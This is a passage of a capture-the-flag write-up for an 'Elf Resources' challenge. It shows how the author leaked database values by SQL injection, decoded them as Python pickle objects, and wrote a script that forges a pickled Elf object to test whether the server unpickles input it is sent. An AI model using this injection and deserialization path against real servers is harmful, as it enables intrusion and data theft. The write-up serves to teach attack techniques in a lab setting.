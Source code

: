 One thing to note is that I was unable to get the `data` values to leak as simply characters. I had to modify the query to use the `unicode` function which converts a character to its ASCII decimal representation (i.e., 'A' == 65 decimal). I'm not exactly sure why this was the case, but I learned about the `unicode` function in the process of struggling with it so that's a plus in my book.

After running the script for each `id`, this is what we leaked:

```
gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==
gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=
gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4=
```

These look like Base64 strings, so we can try converting one:

![](/assets/img/writeups/XMASCTF2022/Elf%20Resources%20Writeup.006.png)

It appears to be some serialized data, and from experience it looks like a [Python pickle object](https://docs.python.org/3/library/pickle.html).

Knowing this, let's try to craft our own pickle object and see if we can get the server to unpickle it. I crafted this script which will create our own `Elf` object:

```python
import pickle 
import os
import base64

class Elf:
    def __init__(self, name, activity, id):
        self.name = name
        self.activity = activity
        self.id = id

print(base64.b64encode(pickle.dumps(Elf('ducky','hacking the planet','1337'))))
```

Running the script, we generate our Base64 encoded pickle object:

```
gASVVwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFZHVja3mUjAhhY3Rpdml0eZSMEmhhY2tpbmcgdGhlIHBsYW5ldJSMAmlklIwEMTMzN5R1Yi4=
```
